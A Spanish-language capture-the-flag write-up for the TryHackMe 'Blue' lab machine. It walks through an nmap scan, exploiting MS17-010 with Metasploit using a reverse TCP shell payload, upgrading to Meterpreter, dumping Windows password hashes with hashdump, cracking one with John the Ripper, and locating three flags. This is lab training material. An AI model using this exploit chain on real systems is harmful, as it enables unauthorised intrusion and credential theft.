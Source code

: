 # Blue

## NMAP
Lo primero de todo será realizar un escaneo con NMAP a la IP de la máquina en búsqueda de puertos abiertos:

- **`-A`** -> Habilita escaneo agresivo (detección de SO, versiones, scripts y traceroute).  
- **`-T4`** -> Aumenta la velocidad del escaneo (rápido pero puede generar más detección).  

![nmap-1](./img/1.png)

Gracias a este escaneo podemos ver los puertos abiertos, habiendo 3 por debajo de 1000.

---

Buscamos una vulnerabilidad concreta para el **puerto 445**. Este puerto es utilizado por el protocolo **SMB**.
![nmap-2](./img/2.png)

A través de este comando se confirma que la máquina es vulnerable a **MS17-010**.

<br>

---

## Metasploit
Para la explotación de esta máquina usaremos **Metasploit**.

- **Primer paso:**
Abrimos la consola de Metasploit usando el comando:
	```
	sudo msfconsole
	```

- **Segundo paso:**
Haremos una búsqueda para tratar de encontrar un exploit para **MS17-010**:
	```bash
	search MS17-010
	```

	![exploit-1](./img/3.png)

- **Tercer paso:**
Encontramos un posible exploit, lo seleccionamos con el comando:
	```bash
	use 0
	```

	Miramos las opciones que vienen definidas con:
	```bash
	show options
	```
	
	![options-exploit](./img/4.png)

	Configuramos las IPs y mostramos las opciones de nuevo para ver que se han aplicado los cambios:
	```bash
	set rhosts IP_TryHackMe
	set lhost IP_VPN
	set payload windows/x64/shell/reverse_tcp
	show options
	```
	![options-exploit-2](./img/5.png)
	Podemos comprobar que se han realizado los cambios correctamente.

---

- **Cuarto paso:**
Ejecutamos el ataque con el comando:
	```bash
	run
	```
	![shell-1](./img/6.png)

	Pulsamos Ctrl + Z para salir de la shell pero sin cerrarla.

	Con el comando:
	```bash
	sessions
	```
	Veremos la sesión iniciada:

	![sessions](./img/7.png)

	Es importante saber la sesión ya que la necesitaremos más adelante.

---

<br>

## Migración a Meterpreter
Para ello buscaremos un módulo de migración a Meterpreter con el comando:
```bash
search shell_to_meterpreter
```
![meterpreter-2](./img/8.png)

Lo seleccionamos y mostramos las opciones para luego realizar su configuración:
```bash
use 0
show options
```
![meterpreter-3](./img/9.png)


Hacemos la configuración:
```bash
set lhost IP_VPN
set session Nº SESIÓN ANTERIOR
```

Una vez hecha la configuración, la ejecutamos con el comando:
```bash
run
```
<br>

Miramos con el comando ```sessions ``` y encontramos la shell:
![sessions-2](./img/10.png)

La iniciamos y con el comando `whoami` comprobamo el usuario de la shell iniciada:

![shell-meterpreter](./img/11.png)


## Hashes y contraseñas
Para extraer los Hashes, salimos de la shell de Windows y en meterpreter usamos el comando:
```bash
hashdump
```

![hashes](./img/12.png)

Nos vamos a quedar con el hash del usuario Jon. Para ello lo copiamos y lo guardamos en un fichero llamado **hash.txt**:

Intentamos descifrar la contraseña con el comando:
```bash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt Escritorio/hash.txt
```
![jon](./img/13.png)


<br>

---

## FLAGS
TryHackMe nos indica que existen tres flags.

### Primera Flag:
TryHackMe nos indica que se encuentra en la raíz del sistema. Para ello volvemos a acceder a la shell de la máquina Windows.

Una vez dentro navegaremos a la raíz y encontramos la primera flag:

![flag-1](./img/14.png)

---

### Segunda Flag:
Para encontrar esta flag navegaremos al directorio `C:\Windows\System32\Config` donde encontraremos la segunda flag:

![flag-2](./img/15.png)

---

### Tercera Flag:
Esta flag la podremos encontrar en el directorio `C:\Users\Jon\Documents`:

![flag-3](./img/16.png)


---

### Una vez encontradas todas las Flags, podemos confirmar que la máquina ha sido comprometida con ¡ÉXITO!